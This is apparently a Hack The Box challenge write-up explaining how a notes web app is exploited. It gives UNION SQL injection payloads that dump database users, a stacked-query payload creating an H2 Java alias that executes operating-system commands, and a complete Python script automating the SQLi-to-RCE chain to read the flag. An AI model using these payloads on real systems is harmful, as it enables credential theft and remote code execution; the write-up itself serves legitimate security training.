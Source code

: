 # Pentest Notes - HTB Challenge Writeup
## Reconnaissance / Information Gathering
We start the challenge and we are given a host to connect to via our web browser:

![image](https://github.com/user-attachments/assets/750a1efb-e01d-4103-9499-06cff3ee7338)


Upon going to the host, we are greeted with a login page to login or register:

![image](https://github.com/user-attachments/assets/9eaf1770-cc4e-41f6-9aab-e4d110bdab5a)


Creating an account, we can see a checklist called 'PENTEST CHECKLIST':

![image](https://github.com/user-attachments/assets/46a8fddb-6442-4dbe-871f-354d1d65fec0)


Clicking on the SQL Injection note, we see a comment that says `One ' to rule them all`. This hints at SQLi, so we start probing the website and messing with the URL with a `'` to test for SQLi.

---

## Exploitation: SQLi
After adding our payload to the end of the URL, we can find some output when we use 3 `NULL`s, which indicates the notes have 3 columns.

We also determine that the first column is not a string, but the second and third (Name and Note) columns are strings. We can determine this by replacing `NULL` with `a` for the `NULL` value:

![image](https://github.com/user-attachments/assets/c7464a66-e31b-465c-a46f-152785af0881)


We list all the databases with: `' UNION SELECT NULL, schema_name, NULL FROM information_schema.schemata--`

![image](https://github.com/user-attachments/assets/590c7390-a3cf-4437-ab1f-07374045c663)


We have 2 databases: 
1. INFORMATION_SCHEMA
2. PUBLIC

We query the `INFORMATION_SCHEMA` database to list all the tables, and see a table called `USERS`. We query the table to see all the columns, then get all the users usernames and passwords in the table:

![image](https://github.com/user-attachments/assets/e6d86a95-f4a5-43a1-a1e6-c0f77ffa8145)


If we login as `user` with password `123`, we just get to the same page with the same PENTEST CHECKLIST.

I continued to search through all the tables, but couldn't find anything useful. I decided to capture requests in Burp Suite to see what I could find through there.

We capture a request in Burp Suite when re-loading the page to find a POST request being sent to /api/note:

![image](https://github.com/user-attachments/assets/f0c26518-e350-48fe-ad89-8b5d08e4e7cb)


Here we find we can also submit the SQL injection through the name of the request (after `SQL Injection`):

![image](https://github.com/user-attachments/assets/94208c11-dbf6-41e0-b62c-3b0b75327a81)


Since we already went through all the tables and couldn't find anything, we can try to get command injection through the following payload:

![image](https://github.com/user-attachments/assets/534d0db0-9a4e-4402-8ca5-ee682955e4ad)


This command does the following:
- Ends the current SQL command.
- Creates a Java-based SQL function named `EXE_CMD` that can run any system command.
- Comments out the rest of the original SQL query to avoid syntax errors.

Now we can execute commands with the following payload:

![image](https://github.com/user-attachments/assets/fab3fdc3-ea6e-45c7-b2b4-a1085adacd37)


We traverse through the file system and find a file that contains the flag:

![image](https://github.com/user-attachments/assets/ae18d49b-995b-423e-bb4e-6f664be874af)


# Automation with Python
Script created to automate the challenge:
```python
import requests  # Used to make HTTP requests (GET, POST, etc.)
import re        # Used for regular expressions to search for patterns (e.g., the flag format)

# Base target URL (replace with the current HTB instance IP:PORT)
base_url = 'http://83.136.248.49:52176'

# Create a persistent session object to retain cookies and headers across requests
session = requests.Session()

# Step 1: LOGIN TO THE APPLICATION
# Construct the full login endpoint
login_url = f'{base_url}/login'

# Provide default credentials to log in
login_data = {
    'username': 'user',
    'password': '123'
}

# Set HTTP headers to mimic a normal browser request
login_headers = {
    'Content-Type': 'application/x-www-form-urlencoded',  # Form submission format
    'Origin': base_url,  # Helps prevent CSRF on some servers
    'Referer': f'{base_url}/login',  # Shows the source page of the request
    'User-Agent': 'Mozilla/5.0'  # Mimics a real browser to avoid being blocked
}

# Send POST request to login with the above data and headers
response = session.post(login_url, data=login_data, headers=login_headers)

# Check if session cookie (JSESSIONID) is set, which indicates a successful login
if 'JSESSIONID' not in session.cookies.get_dict():
    print("Login failed or session not set properly.")
    exit(1)  # Exit the script if login fails

print("Logged in successfully.")

# Step 2: CREATE A MALICIOUS SQL ALIAS 
# Payload to inject SQL that defines a new Java alias 'EXE_CMD' for executing system commands
alias_payload = (
    "------WebKitFormBoundaryPfGWWNBRSLYgbcBS\r\n"
    "Content-Disposition: form-data; name=\"name\"\r\n\r\n"
    "SQL Injection'; CREATE ALIAS EXE_CMD AS 'String exec(String cmd) throws Exception { "
    "Process p = Runtime.getRuntime().exec(cmd); java.util.Scanner s = new java.util.Scanner(p.getInputStream()).useDelimiter(\"\\\\A\"); "
    "return s.hasNext() ? s.next() : \"\";}' --\r\n"
    "------WebKitFormBoundaryPfGWWNBRSLYgbcBS--\r\n"
)

# Headers for sending multipart/form-data (needed for file/form uploads)
alias_headers = {
    'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundaryPfGWWNBRSLYgbcBS',
    'Origin': base_url,
    'Referer': f'{base_url}/note?name=SQL%20Injection',
    'User-Agent': 'Mozilla/5.0'
}

# Endpoint to create a note, which is being abused here for SQL injection
alias_url = f'{base_url}/api/note'

# Send malicious payload to the vulnerable endpoint to create the alias
response = session.post(alias_url, data=alias_payload, headers=alias_headers)
print("Alias payload sent.")

# Step 3: USE THE ALIAS TO EXECUTE A SYSTEM COMMAND
# This payload injects a UNION-based SQL query to call the EXE_CMD alias and read the flag file
exploit_payload = (
    "------WebKitFormBoundaryPfGWWNBRSLYgbcBS\r\n"
    "Content-Disposition: form-data; name=\"name\"\r\n\r\n"
    "SQL Injection' union select NULL,NULL,EXE_CMD('cat flag.txt') --\r\n"
    "------WebKitFormBoundaryPfGWWNBRSLYgbcBS--\r\n"
)

# Use same headers as above since we're still submitting multipart form data
exploit_headers = {
    'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundaryPfGWWNBRSLYgbcBS',
    'Origin': base_url,
    'Referer': f'{base_url}/note?name=SQL%20Injection',
    'User-Agent': 'Mozilla/5.0'
}

# Reuse the same endpoint to now exploit the alias and read the file
response = session.post(alias_url, data=exploit_payload, headers=exploit_headers)

# Step 4: SEARCH THE RESPONSE FOR THE FLAG
# Look for a flag matching HTB{...} format using regex
flag_match = re.search(r'HTB\{.*?\}', response.text)

# If found, print it; otherwise, show a failure message
if flag_match:
    print(f"Flag found: {flag_match.group(0)}")
else:
    print("Flag not found.")
```
- Logs into the target site and keeps the session alive using `requests.Session()`
- Submits a payload to create a Java alias function to execute OS commands
- Sends a second payload to trigger the alias and read the flag file
- Extracts and prints the flag

Result:
![[Pasted image 20250505103827.png]]